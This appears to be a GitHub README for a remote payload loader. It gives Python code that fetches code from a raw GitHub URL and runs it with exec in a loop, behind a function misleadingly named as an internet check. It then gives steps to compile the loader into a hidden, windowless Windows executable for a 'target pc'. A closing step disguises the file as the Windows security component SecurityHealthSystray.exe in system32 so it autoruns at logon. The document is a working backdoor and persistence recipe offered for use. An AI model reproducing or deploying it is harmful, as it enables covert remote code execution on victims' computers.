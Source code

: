 # Client example
```python
import os
import sys
import time
import requests
import subprocess

def has_internet():
    try:
        response = requests.get("https://raw.githubusercontent.com/slayy2357/payload1/main/temp.py")
        if response.status_code == 200 and "#don't delete" in response.text:
            return True, response.text
        else:
            return False, None
    except Exception as e:
        print(f"Error checking internet: {e}")
        return False, None

connected, payload = has_internet()

if connected:
    print("Downloading payload successful.")
    while True:
        try:
            exec(payload)
        except Exception as e:
            print(f"Error during execution: {e}")
            break
        time.sleep(1)
else:
    print("Failed to download payload or invalid content.")
```
## How to make client autorun
### If you are on windows (and target pc is on windows)
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Install pyinstaller :
```bash
pip install pyinstaller
```
Compile client to executable :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
### If you are on linux (and target pc is on windows)
Install wine, download python 64bit .exe installer then start cmd :
```bash
wine cmd
```
Install python (replace with real name):
```bash
pythoninstaller.exe
```
Install requests (and all your client.py dependencies):
```bash
pip install requests
```
Then install pyinstaller :
```bash
pip install pyinstaller
```
And finally, compile to .exe :
```bash
pyinstaller client.py --onefile --noconsole --hidden-import=ctypes --hidden-import=ctypes.wintypes
```
## Finally :
Now whether you are on Linux or Windows, you have your client in ```dist/*.exe```, it can be injected as ```SecurityHealthSystray.exe``` for autorun on user logon (```C:\Windows\system32\SecurityHealthSystray.exe```)